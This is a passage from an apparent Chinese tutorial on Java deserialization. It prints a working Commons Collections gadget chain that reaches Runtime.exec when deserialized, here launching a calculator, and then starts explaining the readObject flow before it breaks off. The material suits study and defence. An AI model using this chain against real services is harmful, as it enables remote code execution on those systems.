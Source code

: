public class Deserialize { public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException, NoSuchMethodException { Object evilObject = getEvilObject(); byte[] serializedObject = serializeToByteArray(evilObject); deserializeFromByteArray(serializedObject); } public static Object getEvilObject() throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException { String[] command = {"open -a calculator"}; final Transformer[] transformers = new Transformer[]{ new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]} ), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]} ), new InvokerTransformer("exec", new Class[]{String.class}, command ) }; ChainedTransformer chainedTransformer = new ChainedTransformer(transformers); Map map = new HashMap<>(); Map lazyMap = LazyMap.decorate(map, chainedTransformer); String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler"; final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0]; constructor.setAccessible(true); InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap); Proxy evilProxy = (Proxy) Proxy.newProxyInstance(Deserialize.class.getClassLoader(), new Class[]{Map.class}, secondInvocationHandler); InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy); return invocationHandlerToSerialize; //*Transformer[] transformers = new Transformer[] { new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }), new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }), new InvokerTransformer("exec", new Class[] { String.class }, new Object[] {"open -a calculator"})}; Transformer chain = new ChainedTransformer(transformers); Map innerMap = new HashMap<String, Object>(); innerMap.put("key", "value"); Map<String, Object> outerMap = TransformedMap.decorate(innerMap, null, chain); Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler"); Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class); ctor.setAccessible(true); Object instance = ctor.newInstance(Target.class, outerMap); return instance;/*/ } public static void deserializeAndDoNothing(byte[] byteArray) throws IOException, ClassNotFoundException { ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArray)); ois.readObject(); } public static byte[] serializeToByteArray(Object object) throws IOException { ByteArrayOutputStream serializedObjectOutputContainer = new ByteArrayOutputStream(); ObjectOutputStream objectOutputStream = new ObjectOutputStream(serializedObjectOutputContainer); objectOutputStream.writeObject(object); return serializedObjectOutputContainer.toByteArray(); } public static Object deserializeFromByteArray(byte[] serializedObject) throws IOException, ClassNotFoundException { ByteArrayInputStream serializedObjectInputContainer = new ByteArrayInputStream(serializedObject); ObjectInputStream objectInputStream = new ObjectInputStream(serializedObjectInputContainer); InvocationHandler evilInvocationHandler = (InvocationHandler) objectInputStream.readObject(); return evilInvocationHandler; } }

下面我们来分析一下这段代码的逻辑。

在Java通过

ObjectInputStream.readObject()
进行反序列化操作的时候，ObjectInputStream会根据序列化数据寻找对应的实现类（在payload中是

sun.reflect.annotation.AnnotationInvocationHandler
）。如果实现类存在，Java就会调用其readObject方法。因此，

AnnotationInvocationHandler.readObject
方法在反序列化过程中会被调用。

AnnotationInvocationHandler在readObject
的过程中会调用

